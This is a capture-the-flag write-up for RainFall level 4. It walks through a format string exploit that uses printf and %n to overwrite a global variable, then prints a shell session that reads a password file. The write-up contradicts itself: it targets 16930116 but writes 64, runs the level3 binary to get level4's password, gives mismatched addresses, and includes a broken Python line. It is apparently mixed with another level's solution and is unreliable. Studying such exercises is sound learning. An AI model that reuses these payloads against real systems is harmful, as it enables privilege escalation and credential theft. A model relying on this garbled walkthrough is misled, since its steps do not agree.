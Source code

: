 # Level4

## Objective

The goal of Level 4 is to escalate from `level4` to `level5` by exploiting a format string vulnerability in the `level4` binary. By the end, you should be able to read the password for `level4`.

---

## Step 1: Examine the Binary

After switching to `level4`:

```bash
level4@RainFall:~$ ls
level4
```

Running the binary:

```bash
level4@RainFall:~$ ./level4
Hello
Hello
```

The program simply echoes back what we type, but suspiciously uses `printf()` directly with user input.

---

## Step 2: Investigate with `ltrace`

```bash
level4@RainFall:~$ ltrace ./level4
printf("test") = 4
```

We see that `printf()` is called **without a format string**, which means our input is treated as the format string itself.

---

## Step 3: Test with Format Specifiers

```bash
level4@RainFall:~$ ./level4
%p %p %p %p
0xbffff744 0xb7fd0ff4 0x80484b7 0x25207025
```

We can dump stack values using `%p`. This confirms a **format string vulnerability**.

I'm sure you want to understand whats the point here. The `%n` reads the input and write the number of bytes he read right after.
Yes, if we make him read a sequence of chosen numbers he will possibly over-write the number corresponding. (to an adress maybe ?)

---

## Step 4: Lets try to disass functions.

We found two functions, `p()` and `n()`.
`p()` uses printf,
`n()` reads our input,
      calls `p()`,
      gives a value to m (a global variable empty so far) [0x8049810]
      compare m with 0x1025544
      if m != jump to an exit
      else run `/bin/sh`

The goal here is clear give m the right value to pass the cmp and execute the syscall.

---

## Step 5: So what's the expected input?

We want to overwrite a global variable called `m` that controls access to the target function. The program wants m to be equal to `16930116` in decimal.

Therefore, our goal is to use `%n` to write the value `16930116` into the memory address of `m`.

---

## Step 6: Find the ofset

```bash
python -c 'print "aaaa" + "%x" + 15' > /tmp/exploit
cat /tmp/exploit | ./level4

```

We inject the address of `m` into the input, followed by a format string to write `64` bytes before using `%n`:

```bash
python -c 'print "\x8c\x98\x04\x08" + "%60u" + "%4$n"' > /tmp/exploit
```

Explanation:

* `\x8c\x98\x04\x08` → address of `m` in little-endian.
* `%60u` → prints 60 characters.
* `%4$n` → writes the number of printed characters (60 + 4 = 64) into the 4th argument on the stack (our `m` address).

---

## Step 7: Run Exploit

```bash
level3@RainFall:~$ ./level3 < /tmp/exploit
whoami
level4
cat /home/user/level4/.pass
4c7e7b3068693b3c1a4d3ff39f0c9ca78eb2d2f63bdba4a1d2a8e1da7544f44e
```

We successfully overwrite `m` and trigger the hidden shell.

---

## Step 8: Summary

* **Vulnerability:** format string bug (`printf(user_input)`).
* **Offset:** writing with `%n` directly to the global variable `m`.
* **Target:** set `m = 64` to unlock `system("/bin/sh")`.
* **Outcome:** gained a shell as `level4` and retrieved the password.

> With this, you can `su level4` using the password.

